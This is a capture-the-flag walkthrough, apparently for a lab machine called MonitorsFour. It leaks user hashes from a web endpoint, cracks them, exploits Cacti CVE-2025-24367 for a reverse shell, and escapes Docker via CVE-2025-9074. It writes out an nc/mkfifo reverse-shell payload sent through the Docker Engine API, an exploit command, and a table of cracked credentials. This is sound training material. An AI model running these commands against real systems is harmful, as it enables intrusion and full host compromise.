---
tags:
  - Windows
  - Easy
  - Cacti
  - RCE
  - Container_Escape
  - Docker
  - Docker_Engine_API
  - API
  - WebApp
  - Directory_Busting
---
## User

### Port Scan

As always, we first start off with an nmap scan. Looking at the results, we have two ports open: HTTP and WinRM.

```
# Nmap 7.95 scan initiated Sat Dec  6 19:08:18 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/monitorsfour 10.129.229.149
Nmap scan report for 10.129.229.149
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2025-12-06 19:08:18 GMT for 19s
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON          VERSION
80/tcp   open  http    syn-ack ttl 127 nginx
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://monitorsfour.htb/
5985/tcp open  http    syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec  6 19:08:37 2025 -- 1 IP address (1 host up) scanned in 19.26 seconds
```

### Finding User Hashes on the Web App

In the `nmap` results, we can see an attempt to redirect to `monitorsfour.htb`, so we put that in our `/etc/hosts` file. From there we can view the web app.



Looking at the page, nothing is very notable. There's a login page along with a forgot password page, but nothing out of the ordinary there. As part of typical enumeration, I used `gobuster` to do some dirbusting.

`gobuster dir -u http://monitorsfour.htb -w ~/git/SecLists/Discovery/Web-Content/raft-small-words.txt -o goMain`

Grepping out the `403` status codes, we get the following results:

```
/login                (Status: 200) [Size: 4340]
/user                 (Status: 200) [Size: 35]
/contact              (Status: 200) [Size: 367]
/static               (Status: 301) [Size: 162] [--> http://monitorsfour.htb/static/]
/views                (Status: 301) [Size: 162] [--> http://monitorsfour.htb/views/]
/controllers          (Status: 301) [Size: 162] [--> http://monitorsfour.htb/controllers/]
/forgot-password      (Status: 200) [Size: 3099]
```

Upon looking at the `/user` route, we're greeted with the message `{"error":"Missing token parameter"}`



To continue investigating, I added `?token=` to the query with a random value. Here, the error message changes to "Invalid or missing token".



In continuing to fuzz the parameter, eventually a value of `0` works, returning a list of users and hashes:



I took these results and put them in a file `user.hashes` and was able to crack the hash for the admin account with the following `hashcat` command:

`hashcat -a 0 user.hashes -m 0 ~/Documents/rockyou.txt --username`



### Obtaining RCE on Cacti

Logging in to the web app with the admin credentials shows some kind of site dashboard, but other than that, there's really nothing interesting about it.



To see if any other vhosts were available, I used `ffuf` to discover them.

`ffuf -r -w ~/git/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://monitorsfour.htb -fs 13688 -H "Host: FUZZ.monitorsfour.htb" | tee ffufDNS`

The resulting subdomain `catci` was discovered, so I added `cacti.monitors.htb` to my `/etc/hosts` file.



Navigating to that domain, we see that version `1.2.28` of Cacti is running.



In doing some research online, I found that this version of Cacti is vulnerable to `CVE-2025-24367` which allows for Remote Code Execution. It does require authentication though. When trying our credential from before, we get denied.



Taking a second look at those leaked records, we see that the admin account has a `name` field of `Marcus Higgins`.



Instead of trying `admin` as the username, let's try `marcus`. Using `marcus:wonderful1` on the login page for Cacti, we're able to log in.



Checking back to `CVE-2025-24367`, I found [this GitHub PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC) that can exploit the platform for us. After cloning it down, I set up a listener and ran the following command to get a reverse shell:

`python3 exploit.py -u marcus -p wonderful1 -i 10.10.14.85 -l 9001 -url http://cacti.monitorsfour.htb`



We can then go into `/home/marcus` to get the user flag.



## Root

### Abusing CVE-2025-9074 to Escape Docker

Looking around the box, there doesn't seem to be anything interesting. There is a database password in `/var/www/app/.env`, but there's no point in dumping the database as we already got it from the web app. Running a password spray with it and our other identified users on `WinRM` proves futile as well.

Given that we appear to be on a Linux system and the hostname is some kind of hash, it would seem that we're on a Docker container. We can confirm this by identifying `.dockerenv` in the root directory.



Doing some research on Windows Docker escape, I found a recent vulnerability `CVE-2025-9074`. [This article](https://blog.qwertysecurity.com/Articles/blog3.html) explains the vulnerability, which essentially is that from any Docker container, we can create a new privileged container. In this container, we can mount the C drive and read secret files. We can also give it a startup command as well so we can get a shell on it.

To start, I ran the following `curl` command. This hits the `Docker Engine API` and creates a new container. The notable pieces are the reverse shell passed to `"Cmd"` and that the C drive is mounted to `/host_root` in the `"Binds"` section.

`curl -X POST -H 'Content-Type: application/json' -d '{"Image":"alpine","Cmd":["sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.85 9002 >/tmp/f"],"HostConfig":{"Binds":["/mnt/host/c:/host_root"]}}' http://192.168.65.7:2375/containers/create`

The container ID is returned back to us in the API response:



We then start the container. Using the returned ID, we run the following `curl` to start the container and get a shell:

`curl -X POST -d '' http://192.168.65.7:2375/containers/<container id>/start`



Because of our mount, we see `host_root` at the root level. We can use it to navigate to `Administrator`'s desktop and get the root flag.





## Credential List

| Username | Password   | Description                           |
| -------- | ---------- | ------------------------------------- |
| admin    | wonderful1 | Gives admin access to the main webapp |
| marcus   | wonderful1 | Gives access to Cacti                 |
